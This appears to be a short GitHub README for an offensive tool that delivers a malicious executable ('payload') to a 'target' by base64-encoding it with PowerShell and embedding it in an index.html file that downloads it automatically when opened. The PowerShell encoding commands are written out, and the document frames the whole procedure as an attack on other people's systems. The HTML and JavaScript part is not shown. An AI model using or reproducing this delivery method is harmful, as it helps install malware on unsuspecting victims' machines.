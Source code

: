 # Auto-File-Download-Using-JS

This script will help you to download your payload automatically into your targets system.

Steps - 

1 - Create Your Payload.

2 - Bring that payload into your Windows system.

3 - Open Powershell.

4 - Navigate to the directory where the paylaod is present.

5 - Commands to perform in Powershell - 
	
	1) (Get-Content C:\Windows\Desktop\Payload.exe)

	2) $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Windows\Desktop\Payload.exe'))

	3) $base64string | Out-File temporary.log

	4) code .\temporary.log

6 - Now copy the code into the index.html file.

7 - Now send index.html to your target and work done. Your payload will get downloaded automatically.

